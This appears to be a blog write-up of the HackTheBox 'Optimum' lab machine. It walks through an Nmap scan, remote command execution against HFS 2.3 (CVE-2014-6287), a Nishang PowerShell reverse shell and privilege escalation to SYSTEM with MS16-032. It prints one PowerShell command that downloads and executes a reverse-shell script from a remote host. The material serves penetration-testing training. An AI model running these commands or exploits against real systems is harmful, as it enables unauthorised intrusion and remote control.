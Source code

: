 # HackTheBox - Optimum Writeup


## Nmap
First, let’s scan the IP address by using the Nmap

```sql
# Nmap 7.92 scan initiated Fri Jun 10 19:25:32 2022 as: nmap -sC -sV -vv -p- --min-rate=10000 -oN nmap/optimum_all 10.10.10.8
Nmap scan report for 10.10.10.8
Host is up, received echo-reply ttl 127 (0.40s latency).
Scanned at 2022-06-10 19:25:32 +08 for 25s
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE REASON          VERSION
80/tcp open  http    syn-ack ttl 127 HttpFileServer httpd 2.3
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-title: HFS /
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
|_http-server-header: HFS 2.3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jun 10 19:25:57 2022 -- 1 IP address (1 host up) scanned in 24.94 seconds
```

Interesting, the only port open is `80` and the banner says `HttpFileServer/HFS 2.3`

## HFS (HttpFileServer)
{{< admonition tip "Description" >}}
**HTTP File Server**, otherwise known as `HFS`, is a free web server specifically designed for publishing and sharing files. </br>
It's different from classic file sharing because it uses web technology to be more compatible with today's Internet. _resource: [wikipedia](https://en.wikipedia.org/wiki/HTTP_File_Server)_
{{< /admonition >}}

I navigate to the `port 80` through the web browser. WOW! it's just a simple webpage and its also can search files,? I believed. Well, this box is really old by the time I'm writing this. Like always I'm asking google about this information and waiting for the result to come in.

![HFS webpage](hfs-main-page.png "HFS webpage")

### CVE-2014-6287
Upon searching on the internet. I found this `HFS` version is vulnerable to `RCE (remote command execution)` and got assigned to a [CVE-2014-6287](https://nvd.nist.gov/vuln/detail/CVE-2014-6287). I also found this [article](https://www.kb.cert.org/vuls/id/251276) with a payload sample.

{{< admonition tip "CVE description" >}}
The `findMacroMarker` function in `parserLib.pas` in Rejetto HTTP File Server (aks HFS or HttpFileServer) 2.3x before 2.3c allows remote attackers to execute arbitrary programs via a `%00` sequence in a search action.
{{< /admonition >}}

### Burpsuite
I already have the [payload sample](https://www.kb.cert.org/vuls/id/251276) and I'm gonna try it out with simple command. The command is `whoami`. First, I intercept the `search` endpoint with [burpsuite](https://portswigger.net/burp). Then, send the request through the repeater and put the payload in the search query. However, it didn't display any output from my `whoami` command. Then, I remembered about the `ping` command. So, I try to ping myself to see, if I get the connection through the box.

![ping myself](burpsuite-search-ping.png "ping myself")

![receiving the ping request](tcpdump-ping-tun0.png "receiving the ping request")

## Nishang: Invoke-PowerShellTcp.ps1

The command runs successfully, with this information, I'm gonna try to gain a foothold on the box with [nishang](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1) reverse shell script. Check this [blog](https://shafiqaiman.com/posts/htb/responder/#nishang-invoke-powershelltcpps1)  where I configure the reverse shell script.

First, I created a new directory called `www` and put the reverse shell script in the same directory. Then, I'm hosting the [python](https://www.python.org/downloads/) web server in port `80` and run the `nc` listener with `rlwrap` since this is a `Windows` machine. Back to the burpsuite, I use this [payload](https://shafiqaiman.com/posts/htb/responder/#nishang-invoke-powershelltcpps1), which is downloading the reverse shell script and executing it. `Don't forget the (dot) at the end`. 

![serve python server](python3-server-and-nc-listening.png "serve python server")

![execute reverse shell](burpsuite-with-powershell-reverse-shell.png "execute reverse shell")

![shell as kostas](nc-catch-the-shell.png "shell as kostas")

NICE!. Finally, I'm in as a `kostas` user. Since this is an old machine from [HacktheBox](https://app.hackthebox.com/), I'm gonna assume they are plenty of exploits on the internet waiting to be found. Well, I'm going to check this machine system with the `systeminfo` command first.

![systeminfo](run-the-systeminfo-command.png "systeminfo")

### MS16-032 : CVE-2016-0099

This is a `Windows Server 2012R2` version `6.3.9600 N/A Build 9600` and the architecture type is `64 bit`. Upon searching this version on the net. I realize this version is vulnerable to a lot of things. However, I'm gonna abuse the [Secondary Logon Service](https://googleprojectzero.blogspot.com/2016/03/exploiting-leaked-thread-handle.html) to gain the `SYSTEM` shell that is dubbed as [MS16-032](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2016/ms16-032) or [CVE-2016-0099](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-0099).

### EmpireProject: Invoke-MS16032.ps1

I manage to find this [exploit](https://www.exploit-db.com/exploits/39719) in the [exploit-db](https://www.exploit-db.com/). However, the exploit itself didn't work in my case because it's open the `cmd` through `GUI` and I don't have access to the `GUI` instance. Luckily, I found the [powershell exploit](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-MS16032.ps1) that allows me to privesc from the [EmpireProject](https://github.com/EmpireProject/Empire).

{{< admonition tip "EmpireProject" >}}
Is a post-exploitation framework that includes a pure-PowerShell2.0 Windows agent, and a pure Python 2.6/2.7 Linux/OS X agent. </br>
It is the merge of the previous PowerShell Empire and Python EmPyre projects. </br>
_resource: [EmpireProject github](https://github.com/EmpireProject/Empire)_
{{< /admonition >}}

So, I'm gonna download it with the `wget` command. Then, edit the file by putting the **example** in the last line also edit the `URL` to point into my python server with another reverse shell called `yeet.ps1`

_Note: the example start with **Invoke-MS16-032**. However, the function is named **Invoke-MS16032**_

![download the exploit](download-ms16032-wget.png "download the exploit")

![exploit example](edit-the-exploit-file-ms16032.png "exploit example")

![edit the exploit](put-at-the-last-line.png "edit the exploit")

### Windows: sysnative

I tried a bunch of times to run this exploit but the result is nothing. This machine is `64` bit and also the exploit is tested on a `64` bit `2k12R2` server. Now, I'm dumbfounded. Then, I realize maybe the powershell itself running on another architecture. So, I [check](https://stackoverflow.com/questions/8588960/determine-if-current-powershell-process-is-32-bit-or-64-bit/8589649#8589649), and it's confirmed. The powershell is running on `32` bit.

![exploit compatibility](example-tested-exploit.png "exploit compatibility")

![check powershell architecture](check-the-arc-of-powershell-32-bit.png "check powershell architecture")

With quick googling, I found this [answer](https://stackoverflow.com/questions/19055924/how-to-launch-64-bit-powershell-from-32-bit-cmd-exe/19056011#19056011) on [stackoverflow](https://stackoverflow.com/). I need to run the powershell in the `sysnative` directory to get the `64` bit version. Well, I need to restart over again. So, back again to the burpsuite and put this as the payload. Then, catch the shell with `nc`.

```powershell
C:\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe "IEX(New-Object Net.WebClient).DownloadString('http://example.com/Invoke-PowerShellTcp.ps1')"
```

When I checked the powershell architecture indeed it is running on 	`64` bit. YES!!!

![using 64bit powershell](check-the-arc-of-powershell-64-bit.png "using 64bit powershell")

## Windows: Privilege Escalation

Now, I'm executing the [privesc exploit](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-MS16032.ps1) once again. My python server shows the request from the file called `Invoke-MS16032.ps1` followed with `yeet.ps1` and finally, I've got a shell as `system`.

![shell as nt authority\system](last-image.png "shell as nt authority\system")

